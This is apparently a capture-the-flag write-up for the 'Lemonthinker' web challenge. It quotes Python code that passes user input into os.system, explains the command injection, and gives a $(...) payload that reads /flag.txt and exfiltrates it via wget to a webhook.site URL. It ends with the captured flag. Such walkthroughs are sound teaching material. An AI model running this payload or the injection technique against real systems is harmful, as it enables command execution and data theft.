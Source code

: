 ```yaml
---
grand_parent: Categories
parent: Web
title: Lemonthinker
nav_order: 1
---
```


# Lemonthinker

```
generate your lemonthinks here!
```

## Challenge

> TL;DR: Bash command injection.

The source code for this challenge isn't too long, which makes the glaring vulnerability even more obvious:

**Source**: `app/app.py`
```py
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

That's right, the user-controlled variable `text` (coming from the HTTP parameter `text`) is being inserted directly into an `os.system()` function call. We can execute OS commands by wrapping them inside `$()`, such as `$(whoami)`.

Let's read the flag and exfiltrate to our external server. Send the following string in the 

```bash
$(cat /flag.txt | xargs -I{} wget "https://webhook.site/c6cf5fb0-9a87-439d-aa8c-4dfbb3a65fef/?flag={}")
```

<img src="images/lemonthinker-01.jpg">

:lemonthink: and the flag will be delivered 😎🚩

<img src="images/lemonthinker-02.jpg">

Flag: `rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}`
